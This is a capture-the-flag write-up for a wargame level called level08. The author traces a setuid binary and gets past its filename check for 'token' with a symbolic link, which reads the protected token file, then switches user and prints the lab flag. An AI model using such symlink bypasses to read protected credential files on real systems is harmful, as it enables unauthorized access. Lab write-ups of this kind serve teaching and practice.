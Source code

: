 ## FLAG: `fiumuikeil55xe9cu4dood66h`

## We have an executable and a token
> ls -l
```
    -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
    -rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

## The executable ask for a file to read
> ./level08
```
    ./level08 [file to read]
```

## A file with access, `token` is only accessible by flag08 user
> ./level08 token
```
    You may not access 'token'
```

## Testing the program with one of my file and it print its content
> echo 'pwd' > /tmp/08_test && ./level08 /tmp/08_test
```
    pwd
```

## So how does it work
> ltrace ./level08 /tmp/08_test
```
    __libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
    strstr("/tmp/08_test", "token")                                                             = NULL
    open("/tmp/08_test", 0, 014435162522)                                                       = 3
    read(3, "pwd\n", 1024)                                                                      = 4
    write(1, "pwd\n", 4pwd
    )                                                                        = 4
    +++ exited (status 4) +++
```
## `strstr("/tmp/test", "token")` This program must only check that there is no substring `token` in the filename

------------------------------------------------

## We'll just use symbolic link to bypass this
> ln -s /home/user/level08/token /tmp/08_link && ./level08 /tmp/08_link
```
    quif5eloekouj29ke0vouxean
```

------------------------------------------------

> su flag08
> getflag
```
    Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```